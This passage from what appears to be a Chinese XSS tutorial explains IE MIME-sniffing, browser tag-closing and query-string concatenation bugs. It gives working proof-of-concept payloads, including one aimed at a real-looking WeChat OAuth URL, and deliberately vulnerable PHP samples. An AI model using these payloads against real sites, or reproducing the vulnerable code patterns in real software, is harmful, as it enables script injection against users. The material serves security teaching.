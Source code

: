 IE有一个特性，那就是在将一个文件展示给用户之前会首先检查文件的类型，也就是MIME sniffing 功能。引入MIME sniffing功能的初衷是用来弥补Web服务器响应一个请求时有可能返回错误的内容类型信息这一缺陷。但是这个点可以被攻击者利用导致一些安全漏洞。这个问题可以和问题6 结合起来理解。  
当直接访问 `https://aaa.bbb.weixin.qq.com/oauth2/access_token?grant_type=client_credential&client_id=11111111111'<script>alert(0)<script>&client_secret=APPSECRETabout:cehome`
因为content-type被设置为application/json会提示下载，但是当访问  
`https://aaa.bbb.weixin.qq.com/oauth2/access_token;.html?grant_type=client_credential&client_id=11111111111'<script>alert(0)</script>&client_secret=APPSECRETabout:cehome`
时因为后面加了`;.html`，ie以MIME sniffing功能把返回的内容当html解析导致xss。  
![xss2](../pictures/xss2.jpg)  
13. 浏览器特性导致标签闭合  
``` php
<?php
if (! isset($_GET['name'])) {
    header('Location: index.php?name=world');
    exit();
}
$name = $_GET['name'];
$name = preg_replace("/<.*>/", "", $name);
echo "<div> hello $name</div>";
?>
```
当输入完整标签时会被过滤掉，但访问 `http://localhost/test/reflection_xss/xss_browser_tag.php?name=%3Cimg%20sRc=%27aa%27%20onError=alert(11111)%20c=/`  
返回内容为 `<div> hello <img sRc='aa' onError=alert(11111) c=/</div>`，浏览器会把 div 的结束标签当作 img 的结束标签，导致onerror 触发。  
14. 业务特性 case  
1). 直接在 Url 后面拼接 &simbatestget**payload**，因为没加等号，业务不会把这段当作keyvalue 来处理，可能直接拼接在某个变量后面，导致xss。  
``` php
 <?php
  if (! isset($_GET['name'])) {
    header('Location: index.php?name=world');
    exit();
  }

  $query_string = "";
  foreach ($_GET as $varname => $varvalue) {
        if ($query_string != '')
        {
                $query_string .= "&";
        }
        $query_string .= $varname . "=" . htmlspecialchars($varvalue, ENT_QUOTES);
  }

  ?>
<script>
        var aa = "<?php echo $query_string?>";
</script>
```